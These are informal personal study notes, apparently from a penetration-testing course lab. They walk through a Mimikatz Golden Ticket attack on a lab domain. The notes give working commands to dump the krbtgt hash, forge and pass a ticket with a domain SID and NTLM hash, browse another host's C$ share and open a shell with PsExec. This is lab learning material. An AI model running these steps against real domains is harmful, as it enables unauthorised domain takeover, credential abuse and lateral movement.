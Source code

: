 **MIMIKATZ - Golden Ticket**
GOLDEN TICKET<br/>
<br/>
If you crack the has to the KTGT ssytem... you can create the ticktets...<br/>
<br/>
Look at me &gt;&gt;&gt; im the TGT service now<br/>
<br/>
<br/>
Golden ticket == complete domain access<br/>
<br/>
<br/>
we are targeting the krbtgt account so lasdum &gt;&gt; on that account<br/>
<br/>
open mimkatz<br/>
<br/>
do privilege debug<br/>
privilege::debug<br/>
<br/>
syntax &gt; lsadump::lsa /inject /name:krbtgt<br/>
<br/>
<img src="image.png"/><br/>
<br/>
<br/>
<br/>
Details need from dump <br/>
<br/>
SID of domain - S-1-5-21-1431682622-4063751855-3734642212<br/>
<br/>
NTLM hash - 5fba49546608a57d9f69f8b0fe18e762<br/>
<br/>
Syntax &gt;&gt; kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-1431682622-4063751855-3734642212 krbtgt:5fba49546608a57d9f69f8b0fe18e762 /id:500 /ptt<br/>
<br/>
<br/>
Kerberos - module<br/>
golden - using<br/>
user - any name admin looks good<br/>
domain - you need the domain name<br/>
sid - the SID from the dump<br/>
krbtgt - from the dump<br/>
id - 500 = admin<br/>
ptt - pass the ticket passes it along to next session<br/>
<br/>
<br/>
<br/>
<br/>
change from course material and based on newer version on mimkatz used<br/>
<br/>
https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html<br/>
<br/>
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-1431682622-4063751855-3734642212 /rc4:5fba49546608a57d9f69f8b0fe18e762 /aes256 /id:500 /ptt<br/>
<br/>
I had to run the above command.. using RC4 instead of krbntgt<br/>
<br/>
<br/>
<img src="image 2.png"/><br/>
<br/>
<br/>
Now we can take the ticket to a new session<br/>
<br/>
misc::cmd<br/>
<br/>
we acan attempt to acces the directory of another machine &gt;&gt;&gt; WOLVERINE<br/>
<br/>
syntax &gt;&gt; dir \\WOLVERINE\c$<br/>
<br/>
*facepalm &gt; it would help if the machine was still online<br/>
<br/>
<img src="image 3.png"/><br/>
<br/>
<br/>
Golden ticket &gt;&gt; persistance.. not usually detected.. BUt Silver ticket!!! new and sneaky<br/>
<br/>
<br/>
PsExec.exe \\WOLVERINE cmd.exe<br/>
<br/>
got me a shell<br/>
<br/>
before<br/>
<img src="image 4.png"/><br/>
<br/>
after<br/>
<img src="image 5.png"/><br/>
<br/>
<br/>
<img src="image 6.png"/><br/>
<br/>
Psexec 64 did not work?? but 32 did! go figure<br/>
<br/>
<br/>
